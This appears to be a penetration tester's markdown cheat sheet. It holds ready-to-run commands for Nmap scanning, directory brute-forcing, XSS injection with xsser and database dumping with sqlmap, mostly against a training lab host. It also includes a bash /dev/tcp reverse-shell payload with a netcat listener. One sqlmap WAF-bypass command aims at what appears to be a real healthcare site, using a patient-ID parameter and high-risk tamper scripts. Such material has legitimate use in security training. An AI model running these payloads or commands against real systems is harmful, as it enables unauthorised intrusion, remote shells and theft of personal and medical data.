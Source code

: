 # Port scanning and service fingerprinting

## Nmap

### Ping sweep

```shell
nmap -sn -n $IP_range_CIDR -oN network_hosts
```

### Port scanning

#### SYN scan (noisy)
```shell
nmap -sS -n -Pn -p- --min-rate 5000 $target_IP -oN allPorts -oG allPorts
```

#### Connect() scan
```shell
nmap -sT -n -Pn -p- --min-rate 5000 $target_IP -oN allPorts -oG allPorts
```

#### UDP scan
```shell
nmap -sU -n -Pn -p- --min-rate 5000 $target_IP -oN allPorts -oG allPorts
```


### Service fingerprinting and NSE scripts

Enter the comma separated list of the open ports after the `-p` parameter

```shell
nmap -sC -sV -p $OPEN_PORTS -oN targeted
```
```shell
nmap -sV --script vuln -p $OPEN_PORTS -oN scripts
```


## Other tools

# Web server attacks

## Web server fingerprinting

### Ncat

### OpenSSL

### whatweb

To get the server banners run

```shell
whatweb $TARGET_URL
```

## Directory and file enumeration

### dirb

### dirsearch

```bash
dirsearch -u $TARGET -w $WORDLISTS -e zip,txt,xxx,old,bak,sql,php,html,js,json,png,jpg -f
```

### gobuster
```bash
gobuster dir -u $URL -w $WORDLIST -q -o $OUTPUT_FILE -x old,bak,zip,rar,sql,java,php,cs
```
# XSS

Test all user inputs to render HTML placing tags or execute JavaScript code with the `<script>` tag.

## XSSER

USAGE


Replace the parameter to inject with the “XSS” keyword or put the XSS keyword on the URL GET parameter to inject payload.

  

### GET REQUEST

```shell
xsser --url 'http://demo.ine.local/index.php?page=user-poll.php&csrf-token=&choice=XSS&initials=sas&user-poll-php-submit-button=Submit+Vote'
```


  
### POST REQUEST

Get the request parameters and use the -p flag to set the reflection points

```shell
xsser --url 'http://VULNERABLE/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS'
```


### AUTOMATIC PAYLOAD

Append the `–auto` flag

```shell
xsser --url 'http://VULNERABLE/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' –auto
```
  

### CUSTOM PAYLOAD

Append the –Fp switch with the custom payload

```shell
xsser --url 'http://demo.ine.local/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --Fp "<script>alert(1)</script>"
```


```shell
xsser --url "http://demo.ine.local/index.php?page=user-poll.php&csrf-token=&choice=XSS&initials=d&user-poll-php-submit-button=Submit+Vote" --Fp "<script>alert(1)</script>"
```
  
# SQLInjection

## SQLMap

### GET parameters

Enumerate DBMS banner, the current Database and it's tables using 10 threads

```shell
sqlmap -u 'http://demo.ine.local/index.php?page=user-info.php&username=sf&password=saf&user-info-php-submit-button=View+Account+Details' -p username --banner --current-db --tables --threads 10

```

Dump the information of a table

```shell
sqlmap -u 'http://demo.ine.local/index.php?page=user-info.php&username=sf&password=saf&user-info-php-submit-button=View+Account+Details' -p username --banner --current-db --dump -T accounts --threads 10
```


### POST request

Define the POST parameters with the `--data` flag.

```shell
sqlmap -u 'http://demo.ine.local/index.php?page=login.php' --data="username=ss&password=ss&login-php-submit-button=Login" -p username --banner --current-db --dump --tables --threads 10

```

## Attempts to bypass a WAF

```bash
sqlmap -u 'https://cosabog06xz036.colmedica.com/COAP09/Sahos/IniciarAuditoria?idPaciente=70753&numeroContrat
o=F239103557348CC0035335123&idAuditoria=0&editarAuditoria=
False' -p idPaciente --threads 10 --cookie="cookie=value" --level=2 --risk=3 --tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,
equaltolike,greatest,ifnull2ifisnull,multiplespaces,percentage,randomcase,space2comment,space2plus,space2randomblank,
unionalltounion,unmagicquotes
```

Additional parameters can be

```bash
--code=HTTPCode --no-cast --no-escape
```

## Setting cookie values

```bash
sqlmap -u 'http://demo.ine.local/index.php?page=login.php' --data="username=ss&password=ss&login-php-submit-button=Login" -p username --banner --current-db --threads 10 --cookie="cookie=value"
```

The cookie parameter can be filled with the HTTP Cookie header value from valid requests.

## Using a saved request

```shell
sqlmap -r req.txt -p parameter
```

## Dump a specific table

```shell
sqlmap -u 'http://demo.ine.local/index.php?page=login.php' --data="username=ss&password=ss&login-php-submit-button=Login" -p username --banner --current-db --dump -T table --threads 10
```

## Dump a specific table from a given database
```shell
sqlmap -u 'http://demo.ine.local/index.php?page=login.php' --data="username=ss&password=ss&login-php-submit-button=Login" -p username --banner -D database --dump -T table --threads 10
```

# Simple Linux reverse shell

## Payload
```
#!/bin/bash
bash -c "bash -i >& /dev/tcp/$IP/$PORT 0>&1" 
```
## Listener
```bash
nc -lvp $PORT
```
For comfort
```bash
rlwrap nc -lvp $PORT
```

# Common ports 

21,22,25,53,443,5000,8000,8080,3306
